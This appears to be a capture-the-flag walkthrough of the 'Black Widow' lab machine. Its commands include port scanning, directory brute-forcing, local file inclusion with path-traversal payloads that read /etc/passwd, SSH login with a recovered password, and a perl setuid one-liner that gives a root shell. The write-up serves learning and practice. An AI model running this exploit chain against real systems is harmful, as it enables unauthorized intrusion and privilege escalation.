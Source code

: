 Target: 10.0.0.24

## ***NMAP***

    # nmap -sS -T4 -p- 10.0.0.24

    PORT      STATE SERVICE
    22/tcp    open  ssh
    80/tcp    open  http
    111/tcp   open  rpcbind
    2049/tcp  open  nfs
    3128/tcp  open  squid-http
    41103/tcp open  unknown
    42933/tcp open  unknown
    50367/tcp open  unknown
    58671/tcp open  unknown

## ***HTTP***

Going to ***http://10.0.0.24*** we don't have anything interesting. After brute forcing the directories I found something useful.

    # gobuster dir -u http://10.0.0.24/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x txt,html,php

    /docs                 (Status: 301) [Size: 305] [--> http://10.0.0.24/docs/]
    /index.html           (Status: 200) [Size: 84]                              
    /company              (Status: 301) [Size: 308] [--> http://10.0.0.24/company/]
    /js                   (Status: 301) [Size: 303] [--> http://10.0.0.24/js/]     
    /server-status        (Status: 403) [Size: 274] 

Going to the ***/company*** directory we have a site running on Arsha ().
Going to ***http://10.0.0.21/company/started.php*** we are redirect to ***http://blackwidow/company/started.php***.  
Let's add the domain name 'blackwidow' to our hosts file.

Found a comment on ***http://blackwidow/company:***

    <!-- =======================================================
    * Template Name: Arsha - v3.0.3
    * Template URL: https://bootstrapmade.com/arsha-free-bootstrap-html-template-corporate/
    * Author: BootstrapMade.com
    * License: https://bootstrapmade.com/license/
    ========================================================

    We are working to develop a php inclusion method using "file" parameter - Black Widow DevOps Team.

    -->

We need to find a php file for this to work.

    # gobuster dir -u http://blackwidow/company/ -w /usr/share/wordlists/dirbuster/directory-list-1.0.txt -x php

    /assets               (Status: 301) [Size: 317] [--> http://blackwidow/company/assets/]
    /forms                (Status: 301) [Size: 316] [--> http://blackwidow/company/forms/] 
    /started.php          (Status: 200) [Size: 42271] 

Let's use ***WFUZZ*** to find the write paylod.

    # wfuzz -c -z file,/usr/share/wordlists/SecLists/Fuzzing/LFI/LFI-LFISuite-pathtotest.txt -u 'blackwidow/company/started.php?file=FUZZ' --hh 0

    =====================================================================
    ID           Response   Lines    Word       Chars       Payload                                   
    =====================================================================

    000000062:   200        29 L     43 W       1582 Ch     "../../../../../../../../../../../../../..
                                                            /../../etc/passwd"                        
    000000060:   200        29 L     43 W       1582 Ch     "../../../../../../../../../../../../../et
                                                            c/passwd"                                 
    000000061:   200        29 L     43 W       1582 Ch     "../../../../../../../../../../../../../..
                                                            /etc/passwd"                              
    000000404:   200        55 L     55 W       727 Ch      "../../../../../../../../../../../../../..
                                                            /etc/group"                               
    000000403:   200        55 L     55 W       727 Ch      "../../../../../../../../../../../../../et
                                                            c/group" 

>

    # curl 'http://10.0.0.24/company/started.php?file=../../../../../../../../../../../../../../../../../../etc/passwd'

    root:x:0:0:root:/root:/bin/bash
    daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
    bin:x:2:2:bin:/bin:/usr/sbin/nologin
    sys:x:3:3:sys:/dev:/usr/sbin/nologin
    sync:x:4:65534:sync:/bin:/bin/sync
    games:x:5:60:games:/usr/games:/usr/sbin/nologin
    man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
    lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
    mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
    news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
    uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
    proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
    www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
    backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
    list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
    irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
    gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
    nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
    _apt:x:100:65534::/nonexistent:/usr/sbin/nologin
    systemd-timesync:x:101:102:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
    systemd-network:x:102:103:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
    systemd-resolve:x:103:104:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
    messagebus:x:104:110::/nonexistent:/usr/sbin/nologin
    avahi-autoipd:x:105:112:Avahi autoip daemon,,,:/var/lib/avahi-autoipd:/usr/sbin/nologin
    sshd:x:106:65534::/run/sshd:/usr/sbin/nologin
    systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin
    viper:x:1001:1001:Viper,,,:/home/viper:/bin/bash
    _rpc:x:107:65534::/run/rpcbind:/usr/sbin/nologin
    statd:x:108:65534::/var/lib/nfs:/usr/sbin/nologin

We have the user ***viper*** on the machine.

I fuzzed more and found out that the file ***/etc/apache2/apache2.conf*** is on the machine. Let's see if ***apache2*** has any log files we can poison.

***apache2*** has log files on ***/var/log/apache2/access.log***.

http://10.0.0.24/company/started.php?file=../../../../../../../../../../../../../../../../var/log/apache2/access.log

For some reason I wasn't able to find poison and view the log files, but I found another file in the /var/backups directory called auth.log. After reading it we can find the password for the user viper on the machine.

    viper:?V1p3r2020!?

>

    # ssh viper@10.0.0.24
    password: ?V1p3r2020!?

    $ cat local.txt 
    d930fe79919376e6d08972dae222526b

Going to ***/home/viper/backup_site/assets/vendor/weapon/*** we have an exec named ***arsenic*** that is a copy of the perl command.

I searched for perl privilege escalation and this article ***https://www.hackingarticles.in/linux-for-pentester-perl-privilege-escalation/***. Following the commands mentioned I was able to get a shell as the root user.

    $ ./arsenic -e 'use POSIX (setuid); POSIX::setuid(0); exec "/bin/bash";'
    # id -a 
    uid=0(root) gid=1001(viper) groups=1001(viper)



▄▄▄▄· ▄▄▌   ▄▄▄·  ▄▄· ▄ •▄     ▄▄▌ ▐ ▄▌▪  ·▄▄▄▄        ▄▄▌ ▐ ▄▌
▐█ ▀█▪██•  ▐█ ▀█ ▐█ ▌▪█▌▄▌▪    ██· █▌▐███ ██▪ ██ ▪     ██· █▌▐█
▐█▀▀█▄██▪  ▄█▀▀█ ██ ▄▄▐▀▀▄·    ██▪▐█▐▐▌▐█·▐█· ▐█▌ ▄█▀▄ ██▪▐█▐▐▌
██▄▪▐█▐█▌▐▌▐█ ▪▐▌▐███▌▐█.█▌    ▐█▌██▐█▌▐█▌██. ██ ▐█▌.▐▌▐█▌██▐█▌
·▀▀▀▀ .▀▀▀  ▀  ▀ ·▀▀▀ ·▀  ▀     ▀▀▀▀ ▀▪▀▀▀▀▀▀▀▀•  ▀█▄▀▪ ▀▀▀▀ ▀▪


Congrats!

You've rooted Black Widow!

0xJin - mindsflee
Follow on Instagram: 0xjiin
Follow on Twitter: 0xJin , @mindsflee


0780eb289a44ba17ea499ffa6322b335


